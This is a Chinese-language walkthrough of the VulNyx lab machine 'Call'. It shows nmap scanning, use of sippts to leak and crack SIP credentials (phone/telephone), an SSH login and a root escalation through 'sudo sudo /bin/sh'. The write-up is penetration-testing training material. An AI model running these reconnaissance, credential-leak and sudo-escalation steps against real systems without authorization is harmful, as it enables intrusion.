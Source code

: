 # 环境

来自[Vulny_Call](https://vulnyx.com/#Call)，VoIP服务渗透，获取ssh用户密码，sudo提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240913110546002](image/image-20240913110546002.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.24
sudo nmap -sU --top-ports 100 -v 192.168.10.24 #找不到突破口就扫UDP
```

![image-20240913110639665](image/image-20240913110639665.png)

![image-20240913145002635](image/image-20240913145002635.png)

## 服务详情

```bash
sudo -sVC -O -p22,80 192.168.10.24
```

![image-20240913110829404](image/image-20240913110829404.png)

## 目录扫描

```bash
dirb http://192.168.10.24 #无结果
```

# VoIP渗透

## 5060端口

SIP（Session Initiation Protocol）是一种信令协议，用于控制多媒体通信会话，如语音和视频通话。它是一个基于请求/响应的协议，使用类似于HTTP的语法，通过发送消息来建立、修改和终止会话。SIP默认使用UDP协议进行通信，其默认端口号为5060

Sippts 是一套用于审计基于SIP协议的VoIP系统的工具

```bash
sudo apt install sippts
sippts scan -i 192.168.10.24
sippts enumrate -i 192.168.10.24
sippts leak -i 192.168.10.24  #直接获取信息
```

![image-20240913151451982](image/image-20240913151451982.png)

解密password

```
用户名：phone
密码：telephone
```

![image-20240913152109239](image/image-20240913152109239.png)

## 提权

[sudo提权](https://gtfobins.github.io/gtfobins/sudo/)

```bash
ssh phone@192.168.10.24
sudo sudo /bin/sh
```

![image-20240913152515829](image/image-20240913152515829.png)
